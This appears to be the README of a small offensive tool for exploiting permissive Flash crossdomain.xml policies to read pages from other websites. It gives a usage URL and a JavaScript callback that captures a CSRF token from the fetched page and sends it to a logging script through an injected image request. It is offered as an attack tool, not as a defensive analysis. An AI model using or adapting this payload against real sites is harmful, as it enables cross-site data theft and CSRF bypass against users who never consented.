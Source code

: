 # crossdomain
Crossdomain exploiting - insecure flash file documents

### How to use this?

```
index.html#http://websitewiththeinsecurecrossdomain.xml/pageyouwant
```

### How do I handle the data?

In `crossdomain.js` there is a callback function, this function receives all the content sent through the flash file that loads the data from the remote website. To exploit it further you can change the crossdomain.callback function to handle the data.

######As preview:
```
'callback': function (data) {
  console.log(data);
}
```

Can become something like:

```
'callback': function (data) {
  var response = data.match('csrf value=(.*)>');
  if(response != null) {
    var img = document.createElement("img");
    img.src = "log.php?response=" + escape(JSON.parse(response));
    
    var src = document.getElementById("header");
    src.appendChild(img);
  }
}
```
